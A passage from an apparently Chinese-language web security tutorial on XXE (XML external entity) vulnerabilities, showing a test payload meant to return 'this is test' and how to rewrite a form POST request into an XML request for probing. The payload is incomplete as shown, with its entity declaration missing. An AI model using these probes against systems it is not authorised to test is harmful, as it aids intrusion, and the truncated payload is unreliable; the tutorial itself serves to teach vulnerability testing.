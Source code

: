 ### 1.2.1、最简单的测试

如遇与xml交互的地方，使用如下payload，如果返回“this is test”，则证明存在xxe漏洞，并且是个有回显的漏洞。

```php
<?xml version="1.0" encoding="UTF-8"?> 
 
]> 
<root>&test;</root>
```

![image.png](assets/1700812438-272fd7a7ec1d2e659fc16bd4b38b58f4.png)

### 1.2.2、添加xml代码

```php
修改Content-Type: application/xml
X-Requested-With: XMLHttpRequest
```

例如，一个普通的请求包：

```php
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
foo=bar
```

可以更改为下面的请求包：

```php
POST /action HTTP/1.0
Content-Type: application/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?>
<foo>bar</foo>
```

